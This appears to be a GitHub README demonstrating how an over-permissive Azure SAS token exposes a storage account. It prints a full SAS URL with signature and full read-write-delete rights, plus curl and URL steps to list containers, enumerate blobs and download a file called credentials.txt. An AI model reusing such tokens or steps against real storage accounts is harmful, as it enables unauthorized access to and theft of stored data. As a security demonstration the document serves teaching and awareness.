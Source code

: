 # Azure SAS Token Exposure Demo

This repository demonstrates how an improperly configured Azure SAS Token can expose sensitive data in an Azure Storage Account.

## Exposed SAS URL
The following SAS URL grants full access to the storage account, including listing containers, enumerating blobs, and downloading files:

https://storageaccountdemopre.blob.core.windows.net/?comp=list&sv=2022-11-02&ss=bfqt&srt=sco&sp=rwdlacupiytfx&se=2025-02-28T21:40:59Z&st=2025-01-28T13:40:59Z&spr=https&sig=h2duBPllGCee29Y89vd%2FZxVxfeE8Gic4GVKv082au4Y%3D


## Steps to Reproduce

### 1. List All Containers
Use the SAS URL to list all containers in the storage account:
```bash
curl -X GET "https://storageaccountdemopre.blob.core.windows.net/?comp=list&sv=2022-11-02&ss=bfqt&srt=sco&sp=rwdlacupiytfx&se=2025-02-28T21:40:59Z&st=2025-01-28T13:40:59Z&spr=https&sig=h2duBPllGCee29Y89vd%2FZxVxfeE8Gic4GVKv082au4Y%3D"
```

### 2. List Blobs in Container

Using the name of the private container demo-container, list the blobs it contains:
```bash 
https://storageaccountdemopre.blob.core.windows.net/demo-container?restype=container&comp=list&sv=2022-11-02&ss=bfqt&srt=sco&sp=rwdlacupiytfx&se=2025-02-28T21:40:59Z&st=2025-01-28T13:40:59Z&spr=https&sig=h2duBPllGCee29Y89vd%2FZxVxfeE8Gic4GVKv082au4Y%3D
```

### 3. Download the Files in the container

```bash
https://storageaccountdemopre.blob.core.windows.net/demo-container/credentials.txt?sv=2022-11-02&ss=bfqt&srt=sco&sp=rwdlacupiytfx&se=2025-02-28T21:40:59Z&st=2025-01-28T13:40:59Z&spr=https&sig=h2duBPllGCee29Y89vd%2FZxVxfeE8Gic4GVKv082au4Y%3D
```
